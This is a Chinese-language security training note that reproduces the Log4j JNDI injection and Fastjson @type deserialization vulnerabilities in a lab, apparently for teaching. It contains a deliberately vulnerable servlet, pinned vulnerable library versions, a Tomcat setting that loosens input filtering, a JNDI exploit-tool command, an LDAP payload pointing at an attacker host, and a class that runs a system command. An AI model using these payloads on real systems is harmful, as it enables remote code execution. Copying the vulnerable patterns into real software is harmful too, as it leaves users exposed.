# 036-安全开发-JavaEE应用&第三方组件&Log4j日志&FastJson序列化&JNDI注入

## 目录
- [知识点](#知识点)
- [演示案例](#演示案例)
- [Java-项目管理工具-配置](#java-项目管理工具-配置)
- [JNDI相关概念](#jndi相关概念)
- [JNDI注入](#jndi注入)
- [FastJson JNDI 注入漏洞](#fastjson-jndi-注入漏洞)
- [Java-三方组件-Log4J&JNDI](#java-三方组件-log4jjndi)
- [Java-三方组件-FastJson&反射](#java-三方组件-fastjson反射)
- [总结](#总结)
- [难点总结](#难点总结)


## 知识点：
1. **JavaEE-组件安全-Log4j**  
   Log4j是Apache的日志管理组件，用于控制日志的输出目的地、格式和级别。其安全风险主要源于2.x版本中存在的JNDI注入漏洞：当日志内容包含`${jndi:}`格式的恶意字符串时，会触发远程代码执行（RCE），这是网安领域中极具影响力的"供应链攻击"案例。

2. **JavaEE-组件安全-Fastjson**  
   Fastjson是阿里巴巴开发的JSON解析库，用于Java对象与JSON字符串的转换。其安全风险在于反序列化过程中对`@type`字段的处理：攻击者可通过构造包含`@type`的恶意JSON，指定加载恶意类并执行代码，属于典型的"反序列化漏洞"。

3. **JavaEE-基本了解-JNDI-API**  
   JNDI（Java命名和目录接口）是Java用于访问分布式资源的接口，支持RMI、LDAP等服务。其设计初衷是简化资源查找，但攻击者可利用其"远程加载类"的特性，通过注入恶意资源地址实现代码执行，是上述Log4j、Fastjson漏洞的核心触发机制。


## 演示案例：
- **Java-三方组件-Log4J&JNDI**：通过Log4j日志组件处理用户可控输入时，利用JNDI注入执行远程代码。
- **Java-三方组件-FastJson&反射**：利用Fastjson反序列化时的类型指定功能，结合Java反射机制调用恶意类方法。


## Java-项目管理工具-配置
### Jar仓库：
- 官方地址：https://mvnrepository.com/  
  用于获取Java第三方组件的依赖配置（如Log4j、Fastjson的版本信息），是Java项目管理的基础工具。

### Maven配置：
- 参考教程：https://www.jb51.net/article/259780.htm  
  Maven通过`pom.xml`文件管理项目依赖，正确配置组件版本是复现漏洞的前提（需使用存在漏洞的版本）。


## JNDI相关概念：
1. **JNDI核心功能**：JNDI是统一接口，底层可对接RMI、LDAP等服务。应用通过名称（如`jndi:ldap://xxx`）查找远程资源，JNDI会自动将资源加载到本地并实例化——这一"自动加载"特性既是便利，也是安全风险的根源。

2. **反序列化常用利用方式**：
   - **RMI（远程方法调用）**：允许Java对象跨JVM调用方法。攻击者可搭建恶意RMI服务，返回含恶意代码的对象引用。
   - **LDAP（轻量级目录访问协议）**：用于访问树形目录服务。攻击者可构造恶意LDAP响应，指向远程恶意类。

3. **RMI与LDAP的区别**：  
   RMI更侧重"方法执行"，LDAP更侧重"数据查询"，但两者均可作为JNDI注入的载体，本质是通过JNDI接口将恶意类加载到目标系统。


## JNDI注入：
### 原理：  
攻击者通过控制输入，将JNDI接口的`lookup()`方法参数修改为恶意RMI/LDAP地址（如`jndi:ldap://攻击者IP/恶意类`）。目标系统执行`lookup()`时，会从恶意地址加载并实例化类，触发类中的恶意代码（如构造方法、静态代码块中的命令）。



核心流程：  
`用户输入可控参数` → `参数被传入JNDI lookup()` → `目标访问恶意服务器` → `加载并执行恶意类` → `远程代码执行`


## FastJson JNDI 注入漏洞
FastJson在解析JSON字符串时，若遇到`@type`字段，会根据字段值指定的类名进行反序列化（即实例化该类）。  
- **攻击路径**：攻击者构造含`@type`的JSON（如`{"@type":"恶意类","属性":"值"}`），目标解析时会实例化"恶意类"，若该类的构造方法或属性设置方法包含恶意代码（如执行系统命令），则触发攻击。  
- **远程扩展**：结合JNDI时，恶意类可通过`jndi:xxx`地址远程加载，实现无需预先在目标系统存恶意类即可攻击。  


## Java-三方组件-Log4J&JNDI
### Log4j：日志管理  
Log4j是Apache的开源日志组件，支持日志输出到控制台、文件、网络等，可通过配置文件灵活控制。其2.x版本（如2.14.1）存在严重漏洞：当日志内容包含`${jndi:}`格式字符串时，会自动触发JNDI lookup，若内容可控则导致RCE。


### Log4j-组件安全复现
#### 本地简单实现
1. **创建Maven项目**：命名为`Log4jDemo`。  
2. **导入漏洞版本依赖**（`pom.xml`）：  
```xml
  <dependencies>
        <!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core -->
        <!-- 引入Log4j Core 2.14.1版本，该版本存在JNDI注入漏洞 -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
  </dependencies>
```

3. **编写测试代码**（`Log4jTest.java`）：  
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jTest {

    //使用Log4j 实现错误日志输出
    // 创建 Logger 实例，用于日志记录
    private static final Logger logger = LogManager.getLogger(Log4jTest.class);

    public static void main(String[] args) {

        //如果这个code变量是可控的（如来自用户输入），则存在严重安全风险
        // 潜在的安全风险：使用不受信任的数据作为日志消息，可能被注入恶意Payload
        String code = "${java:os}"; // ${java:os}是Log4j的变量替换语法，会解析为系统信息
        // 将不受信任的数据作为日志消息传递给 Logger.error，Log4j会自动解析其中的变量
        logger.error("{}",code);

    }
}
```
运行结果：  



#### 构造HTTP Web服务复现漏洞
1. **开发带漏洞的Web接口**：  
```java
@WebServlet("/log4j") // 定义Servlet访问路径为/log4j
public class Log4jServlet extends HttpServlet {
    // 创建Logger实例用于日志记录
    private static final Logger Logger = LogManager.getLogger(Log4jServlet.class);

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        // 从请求中获取名为 "code" 的参数，该参数完全由用户控制
        String code = req.getParameter("code");

        // 记录日志，潜在的安全风险：直接使用用户输入，若输入为恶意JNDI地址则触发漏洞
        Logger.error("{}", code);
    }
}
```

2. **解决Tomcat特殊字符限制**：  
   问题：Tomcat 7.9+默认禁止URL中包含`{`、`}`等特殊字符，导致含`${jndi:}`的Payload被拦截，报400错误。  
     
   解决：修改Tomcat的`server.xml`，允许特殊字符：  
```xml
<Connector port="8080" protocol="HTTP/1.1"
               <!-- 配置relaxedQueryChars允许URL中包含特殊字符，解决Log4j漏洞测试中Payload被拦截的问题 -->
               relaxedQueryChars="[]|{}^&#x5c;&#x60;&quot;&lt;&gt;"
               connectionTimeout="20000"
               redirectPort="8443" />
```
   配置后效果：  
     
   


3. **利用JNDI工具执行攻击**：  
   攻击者使用JNDI注入工具（如`JNDI-Injection-Exploit.jar`）搭建恶意服务器：  
   ```bash
   java -jar JNDI-Injection-Exploit.jar -C "calc" -A 攻击者IP  # -C指定执行命令（打开计算器），-A指定攻击者IP
   ```
   工具生成Payload（如`${jndi:ldap://攻击者IP:1389/xxx}`），通过URL传入目标：  
   `http://目标IP:8080/log4j?code=${jndi:ldap://攻击者IP:1389/xxx}`  
   目标执行日志记录时解析Payload，访问恶意LDAP服务器，加载并执行`calc`命令。

   攻击流程示意图：  
     
     
     
   


## Java-三方组件-FastJson&反射
### FastJson：JSON解析工具  
Fastjson是阿里巴巴的开源库，用于Java对象与JSON的快速转换，广泛应用于前后端数据交互。其安全风险在于反序列化时对`@type`字段的处理：允许指定目标类，结合反射机制实例化对象，若类含恶意代码则触发攻击。


### Fastjson-组件安全复现
1. **Maven引用Fastjson**：  
   需使用存在漏洞的版本（如1.2.24），在`pom.xml`中添加依赖：  
   


2. **创建测试类`User`**：  
```java
package com.xiaodi;

//给fastjson数据转换测试用的实体类，包含基本属性和get/set方法
public class User {
    private String name;
    private Integer age;

    public Integer getAge() {
        return age;
    }

    public String getName() {
        return name;
    }

    public void setAge(Integer age) {
        this.age = age;
        System.out.println(age); // 设置age时打印值
    }

    public void setName(String name) {
        this.name = name;
        System.out.println(name); // 设置name时打印值
    }
}
```
   类结构示意图：  
   


3. **对象转JSON（正常功能）**：  
```java
//使用fastjson去处理User类数据
public class FastjsonTest {
    public static void main(String[] args) {
        //创建User对象并设置属性
        User u = new User();
        u.setAge(30);
        u.setName("xiaodi");
//        System.out.println(u);

        //上述对象 -> JSON
        //使用fastjson简化JSON转换，替代复杂的原生API
        String jsonString = JSONObject.toJSONString(u);
        System.out.println("这就是json格式："+jsonString);
   }
}
```
   运行结果：  
   


4. **JSON转对象（漏洞触发点）**：  
   Fastjson可通过`SerializerFeature.WriteClassName`参数在JSON中添加`@type`字段，指定反序列化的目标类：  
```java
//分析漏洞利用：多输出转换数据的类型（类），通过@type指定转换对象的类路径
String jsonString1 = JSONObject.toJSONString(u, SerializerFeature.WriteClassName);
System.out.println(jsonString1);
```
   运行结果（含`@type`字段）：  
   


5. **利用恶意类触发攻击**：  
   创建恶意类`Run`（构造方法中执行系统命令）：  
```java
package com.xiaodi;

import java.io.IOException;

//恶意类：构造方法中执行系统命令（打开计算器）
//当Fastjson反序列化该类时，会自动调用构造方法，触发命令执行
public class Run {
    public Run() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

   构造含恶意类的JSON并解析：  
```java
//下面JSON -> 对象
//test为正常User类的JSON，test1为含恶意Run类的JSON
String test = "{\"@type\":\"com.xiaodi.User\",\"age\":30,\"name\":\"xiaodi\"}";
String test1 = "{\"@type\":\"com.xiaodi.Run\",\"age\":30,\"name\":\"xiaodi\"}";

//实战中攻击者会通过@type指定恶意类，结合RMI/LDAP远程加载类执行代码（RCE）
//JSON.parseObject会根据@type字段反序列化为指定类的对象
JSONObject jsonObject = JSON.parseObject(test);
System.out.println("这就是json转换为对象的格式："+jsonObject);
JSONObject jsonObject1 = JSON.parseObject(test1); // 解析时实例化Run类，触发calc命令
System.out.println("这就是json转换为对象的格式："+jsonObject1);
```
   运行结果（触发计算器）：  
   


## 总结：
参考复现：https://blog.csdn.net/guo15890025019/article/details/120532891

流程如下：

1. **开启HTTP服务器并放置恶意类**：  
   攻击者首先启动一个 HTTP 服务器，并在其中放置包含恶意代码的 Factory 类文件或 JAR 文件。这些文件包含了攻击者想要远程加载并执行的恶意代码，作为后续攻击的核心 payload。

2. **开启恶意RMI服务器**：  
   攻击者启动一个恶意的 RMI 服务器，该服务器可能包含一个特殊的远程对象。这个对象的设计目的是在被目标系统远程加载时，引导目标系统去加载并执行攻击者准备的恶意代码。

3. **攻击者控制URL参数为恶意RMI服务器地址**：  
   攻击者通过抓包修改请求等方式，将目标系统数据源的 RMI URL 指向自己控制的恶意 RMI 服务器地址。这一步的核心是让目标系统的应用程序在执行相关操作时，主动去访问攻击者的恶意服务器。

4. **恶意RMI服务器返回ReferenceWrapper类**：  
   当目标系统执行 JNDI 的 lookup 操作时，攻击者的恶意 RMI 服务器会返回一个特殊的对象，通常是 ReferenceWrapper 类的实例。这个对象是连接目标系统与恶意代码的关键中间载体。

5. **目标执行lookup操作，将ReferenceWrapper变成Reference类**：  
   目标系统的代码（可能是 JNDI_Client 类）在执行 lookup 操作时，会通过自定义的 decodeObject 方法将接收到的 ReferenceWrapper 对象转换为 Reference 类的实例。在这个转换过程中，会触发远程类加载机制，将攻击者放在 HTTP 服务器上的 Factory 类加载到目标系统中。

6. **远程加载并实例化Factory类，触发静态代码片段中的恶意代码**：  
   在将 Reference 类实例化的过程中，会触发 Factory 类的静态初始化块，而这个静态块中就包含了攻击者预先准备的恶意代码。至此，攻击者成功在目标系统上执行了远程加载并触发恶意代码的攻击流程，实现了对目标系统的控制。








## 难点总结
1. **环境版本限制**  
